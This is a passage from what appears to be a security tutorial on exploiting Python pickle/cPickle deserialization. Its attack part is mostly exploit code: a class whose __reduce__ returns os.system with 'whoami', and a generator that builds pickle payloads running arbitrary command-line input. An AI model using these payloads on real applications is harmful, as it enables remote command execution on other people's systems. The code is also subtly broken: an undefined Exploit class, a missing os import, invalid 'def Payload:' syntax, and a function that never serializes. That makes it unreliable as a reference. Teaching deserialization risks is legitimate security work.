 As you can see, the cPickle `load()` function is called without any prior check on the file content, allowing an attcker to pass an arbitrary binary payload to the application.

How can we exploit it, then? In Python, we don't actually have any tool like ysoserial, and we don't have a clear definition of POP gadget as it was for the previous languages we encountered so far, but in this context, we actually don't need them at all.

Indeed, for pickle, _pickle and cPickle, we can craft a payload using a simple piece of code, like the following:

```python
import _pickle

class Payload(object):
    def __reduce__(self):
        return (os.system, ('whoami',))

def serialize_exploit():
    shellcode = _pickle.dumps(Exploit())
    return shellcode

```

Changing the return function it would be possible to generate the payload needed to execute different commands.

It is enough, however, it is more than possible to create something way more general than this, using various techniques, the first we'll see is known as dynamic class generation, code below:

```python
import os
import _pickle
import sys

def Payload:
    pass

    def __reduce__(self):
        pass

def _patch(bytestream):
    byte_array = bytearray(bytestream)
    byte_array[-4] = int("52", 16)
    return bytes(byte_array)

def generate_class(name=None, methods=None):
    if not name:
        return None
    elif not methods:
        return None
    else:
        return type(name, (object,), methods)()

def serialize_class(commands):
    if not commands:
        print(f"[-] No command provided")
    else:
        methods = {
            "__reduce__": lambda self: (os.system, (commands,))
        }
        cls = generate_class("Payload", methods)
        return cls.__reduce__()

command = " ".join(sys.argv[1:])
print(f"[+] Generating serialized object for:")
print(f"    {command}")

```
